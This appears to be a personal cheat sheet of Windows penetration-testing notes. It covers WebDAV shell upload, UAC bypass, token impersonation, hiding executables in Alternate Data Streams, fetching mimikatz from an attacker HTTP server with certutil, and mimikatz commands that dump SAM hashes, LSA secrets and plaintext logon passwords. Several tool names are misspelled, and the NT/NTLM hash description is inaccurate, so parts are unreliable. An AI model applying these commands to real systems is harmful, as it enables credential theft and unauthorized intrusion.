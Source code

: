 ## Frequently Exploited Services
```
Microsoft IIS (internet information services)
WebDAV (WebBased Distributed Authoring and versioning)
RDP (Remote Desktop Protocol)
WinRM (Remote Management)
```

## MicrosoftIIS + WebDAV Exploiting
```
Enumerate using -----     davtest
Upload shell and Exploit using  ------ cadaver
```

## MSFConsole
```
multi/recon/local_exploit_suggester
```
## Kernal Exploits

```
exploit suggester python script --database --systeminfo
```

## Window Privesc
### UACME
```
UAC Bypassing UACME
```
### Access Token Impersonation ( Noted: Access Token are created and managed by "LSASS Local Security Authority SubSystem Service" then attached to userinit.exe)

#### Privilege Required For Impersonation
```
SeAssignPrimaryToken:
SeCreateToken:
SeImpersonatePrivilege:
```
- Command For TokenManipulation or Impersonation
```
Invoke-TokenManipulation -enumerate
```
#### Incoginto in Metasploit
```
load incognito
list_tokens -u
impersonate_token "--token---"
```
### Alternate Data Streams ( To hide malicious payload inside the legitimate files' metadata )
```
first create a txt file : "notepad lee.txt"
type "file to hide" > lee.txt:somthing.exe
mklink aname.exe C:\path\to\lee.txt:something.exe
.\aname.exe
```
### Dumping Password Hashes
#### NT NTLM hashes 
```
NT --> Split into seven chunk of character, uppercase them all, DES Algorithm
NTLM --> Case-sensitive, use MD4 algorithms
```

#### Search Password in Window Config files
##### Unattened Window Setup Utility
```
C:\\Windows\Panther\Unattend.xml
C:\\Windows\Panther\Autounattend.xml
```
### Dumping Password Hash with Mimitkaz 
#### Kiwi extension
```
load kiwi (in meterpreter shell)
? for help
```
#### Mimitkaz 
```
upload mimitkaz (from meterpreter) or
python3 -m http.server(Attacker), cerutil -urlcache -split -f http://file/to/download.extension C:\\mimitkatz
```
##### Mimitkaz commands
```
privilege::debug
lsadump::sam
lsadump::secrets
sekurlsa::logonpasswords  (Dump loggedon password in plain text)

```
#### Pass the Hashes
easy























